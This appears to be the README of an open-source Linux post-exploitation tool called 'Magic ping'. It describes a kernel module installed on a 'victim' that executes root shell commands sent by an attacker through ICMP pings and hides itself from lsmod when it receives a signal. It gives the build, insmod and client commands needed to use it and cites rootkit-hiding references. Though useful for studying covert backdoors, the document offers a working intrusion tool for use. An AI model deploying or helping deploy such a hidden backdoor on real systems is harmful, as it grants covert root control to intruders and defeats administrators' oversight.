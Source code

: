 Magic ping - shell execution

<div align="center">

![Ping - ICMPv4](https://img.shields.io/badge/Ping-ICMPv4-2ea44f) ![License - MIT](https://img.shields.io/badge/License-MIT-blue) 
![Security - Post penetration](https://img.shields.io/badge/Security-Post_penetration-yellow) ![Tested on - 5.4.0-109-generic #123-Ubuntu x86_64 GNU/Linux](https://img.shields.io/badge/Tested_on-5.4.0--109--generic_%23123--Ubuntu_x86__64_GNU%2FLinux-orange)
</div>



## Features:

* Romete shell command execution by ping.
* Hiding (Showing) Kernel Module from Userspace. 


## Compile 

### compile server(victim) kernel module:
```bash
cd server && make
```

**Client(attacker):**

```bash
cd client && make
```

**Romete server (victim):**

```
sudo insmod server.mod
```

## Local attacker:

Need root privilege to send icmp packets for ping.
```
sudo ./client <victim ip address>
```

Then you can let remote victim execute whatever shell command you input as root privilege (some command may need full path).

## Hide(Show) remote kernel module:

Send signal 64 to show or hide:
```
kill -64 1
```
Use `lsmod` to check.

## TODO:

* Kernel version > 5.7 supporting.

## Thanks && Reference：

* [Hacking the Linux Kernel Network Stack](http://phrack.org/issues/61/13.html)
* [Does tcpdump bypass iptables?](https://superuser.com/questions/925286/does-tcpdump-bypass-iptables)
* [linux-network-programming-ping.c](https://github.com/coding-fans/linux-network-programming/blob/master/src/c/icmp/ping/ping.c)
* [Given a git commit hash, how to find out which kernel release contains it?](https://unix.stackexchange.com/questions/45120/given-a-git-commit-hash-how-to-find-out-which-kernel-release-contains-it)
* [Linux Rootkits Part 5: Hiding Kernel Modules from Userspace](https://xcellerator.github.io/posts/linux_rootkits_05/)
* [Hooking Linux Kernel Functions, Part 2: How to Hook Functions with Ftrace](https://www.apriorit.com/dev-blog/546-hooking-linux-functions-2)
